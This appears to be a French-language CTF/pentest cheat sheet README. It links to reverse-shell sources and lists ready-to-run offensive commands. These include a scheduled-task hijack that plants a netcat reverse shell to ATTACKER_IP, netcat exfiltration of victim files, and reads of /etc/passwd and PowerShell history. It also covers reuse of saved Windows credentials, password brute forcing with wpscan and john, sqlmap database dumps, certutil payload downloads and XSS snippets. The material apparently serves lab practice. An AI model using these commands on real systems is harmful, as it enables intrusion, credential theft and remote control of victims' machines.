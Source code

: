 ```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
linEnum : https://github.com/rebootuser/LinEnum <br>
winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
Reverse Shells : https://www.revshells.com/ <br>
Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
Binaries exploit : https://gtfobins.github.io/ <br>
PrivEscCheck (windows) : https://github.com/itm4n/PrivescCheck <br>
```
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```
wes.py (aussi pour windows): https://github.com/bitsadmin/wesng/blob/master/wes.py <br>
```
user@kali$ wes.py systeminfo.txt        
```
Windows Local PrivEsc : https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

-------------------------------------------------------------------------------------------------------------------------------------------+
# Basiques !
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
# Linux
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](WordPress) => wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](GOBUSTER)  => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](NMAP/SMB)  => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                    smbclient //<ip>/anonymous (-U pour un utilisateurs)
                    smbclient //10.10.188.11/BillySMB -I 10.10.188.11 -U bjoel
                    smbget -R smb://<ip>/anonymous
[CMD](FFUF)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)
```
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
<br> 
<br>

# Windows

```
[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](WIN)*PS*   => type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (ou %userprofile% avec CMD)
[CMD](WIN)*PS*   => cmdkey /list  #liste les creds sauvegardés
[CMD](WIN)*PS*   => runas /savecred /user:admin cmd.exe  #exécute l'action avec les credentials sauvegardés
[CMD](WIN)*PS*   => schtasks | schtasks /query /tn TASKVULNERABLE /fo list /v   #Planificateur de tâche
                    icacls c:\tasks\schtask.bat #Donne des infos sur les permissions planificateur de tâches
                    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
                    schtasks /run /tn vulntask #Exécute la tâche direct

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
[AV]*PS*         => Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
[AV]*CMD*        => wmic /namespace:\\root\securitycenter2 path antivirusproduct
```

# Some XSS Cheats
```
<script>document.querySelector('#page-title').textContent = 'New text'</script>
<img src=x onerror=alert('hello')>
```


-------------------------------------------------------------------------------------------------------------------------------------------+

